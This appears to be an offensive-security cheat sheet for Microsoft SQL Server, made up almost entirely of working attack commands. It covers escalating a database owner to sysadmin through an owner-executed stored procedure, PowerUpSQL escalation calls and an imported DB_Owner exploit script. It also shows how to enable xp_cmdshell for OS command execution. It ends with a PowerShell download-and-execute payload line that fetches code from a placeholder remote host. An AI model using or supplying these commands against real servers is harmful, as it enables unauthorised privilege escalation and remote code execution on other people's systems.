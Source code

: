 ````
SELECT suser_sname(owner_sid), * FROM sys.databases
```
 
#### Create a stored procedure
```
USE <DB>;
CREATE PROCEDURE sp_elevate_me
WITH EXECUTE AS OWNER
AS
EXEC sp_addsrvrolemember '<USER TO MAKE SYSADMIN>','sysadmin'
```

#### Execute procedure
```
USE <DB>
EXEC sp_elevate_me
```
 
#### Verify user is sysadmin
```
SELECT is_srvrolemember('sysadmin')
```

#### Automatic execution of stored procedures
- Found and abused with PowerUpSQL
```
invoke-SQLAudit
invoke-SQLEscalatePriv -Verbose -Debug
```

#### DB_Owner exploit script
- https://raw.githubusercontent.com/nullbind/Powershellery/master/Stable-ish/MSSQL/Invoke-SqlServer-Escalate-Dbowner.psm1
```
Import-Module .\Invoke-SqlServerDbElevateDbOwner.psm1
Invoke-SqlServerDbElevateDbOwner -SqlUser <USER> -SqlPass <PASSWORD> -SqlServerInstance <INSTANCE>
```
 
### Command execution
![image](https://user-images.githubusercontent.com/43987245/151711534-6114738f-6c9c-49b2-8c5f-0cb27f5fa6d0.png)

#### Check xp_cmdshell
```
SELECT * FROM sys.configurations WHERE name = 'xp_cmdshell';
```
 
#### Enable and run xp_cmdshell
```
-- Enable show options
EXEC sp_configure 'show advanced options',1
RECONFIGURE
GO
-- Enable xp_cmdshell
EXEC sp_configure 'xp_cmdshell',1
RECONFIGURE
GO
-- Quickly check what the service account is via xp_cmdshell
EXEC master..xp_cmdshell 'whoami'
```
 
#### Execute commands trick
- Prevents having to deal with the escaped, qoutes, double qoutes etc
```
$str = 'IEX ((new-object net.webclient).downloadstring("http://x.x.x.x:8090/payload"))'
[System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str)) | clip
````